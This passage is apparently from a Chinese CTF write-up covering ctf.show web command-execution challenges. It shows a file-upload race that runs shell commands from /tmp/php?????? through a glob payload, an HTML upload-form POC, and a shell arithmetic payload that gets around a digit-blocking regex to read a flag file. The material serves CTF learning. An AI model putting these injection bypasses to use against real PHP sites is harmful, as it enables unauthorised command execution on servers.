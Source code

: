 我们可以通过post一个文件(文件里面的sh命令)，在上传的过程中，通过`.(点)`去执行执行这个文件。(形成了条件竞争)。一般来说这个文件在linux下面保存在`/tmp/php??????`一般后面的6个字符是随机生成的有大小写。（可以通过linux的匹配符去匹配）
 `注意：通过`.`去执行sh命令不需要有执行权限`

我们需要构造一个post上传文件的数据包。

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>POST数据包POC</title>
</head>
<body>
<form action="http://46230c96-8291-44b8-a58c-c133ec248231.chall.ctf.show/" method="post" enctype="multipart/form-data">
<!--链接是当前打开的题目链接-->
    <label for="file">文件名：</label>
    <input type="file" name="file" id="file"><br>
    <input type="submit" name="submit" value="提交">
</form>
</body>
</html>
```

抓包，构造`?c=.+/???/????????[@-[]`

[![ByL5qO.md.png](https://s1.ax1x.com/2020/11/03/ByL5qO.md.png)](https://imgchr.com/i/ByL5qO)

## web57~构造数字

```php
<?php

// 还能炫的动吗？
//flag in 36.php
if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|[a-z]|[0-9]|\`|\|\#|\'|\"|\`|\%|\x09|\x26|\x0a|\>|\<|\.|\,|\?|\*|\-|\=|\[/i", $c)){
        system("cat ".$c.".php");
    }
}else{
    highlight_file(__FILE__);
}

```

这里只需要构造 传参 36 即可，但是数字字符都被ban了。

paylaod

```
$((~$(($((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~
$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~
$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~
$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~
$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~
$(())))$((~$(())))$((~$(())))))))
```
